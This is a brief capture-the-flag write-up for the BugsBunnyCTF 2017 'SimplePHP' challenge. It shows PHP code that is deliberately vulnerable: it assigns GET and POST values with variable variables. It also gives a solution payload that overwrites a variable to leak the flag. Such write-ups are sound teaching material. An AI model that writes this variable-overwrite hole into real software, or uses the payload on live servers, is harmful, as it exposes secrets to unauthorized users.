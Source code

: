 # Challenge
```php 
<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
	die($_403);
foreach ($_GET as $key => $value)
	$$key = $$value;
foreach ($_POST as $key => $value)
	$$key = $value;
if ( $_POST["flag"] !== $flag )
	die($_403);
echo "This is your flag : ". $flag . "\n";
die($_200);
?>
```

# Solution 
payload:
```
http://34.253.165.46/SimplePhp/index.php?_200=flag
POST:
flag=1
```

# Refference
+ BugsBunnyCTF2017 : SimplePHP
+ [chybeta : SimplePHP](https://chybeta.github.io/2017/07/30/BugsBunnyCTF2017-web-writeup/#SimplePHP)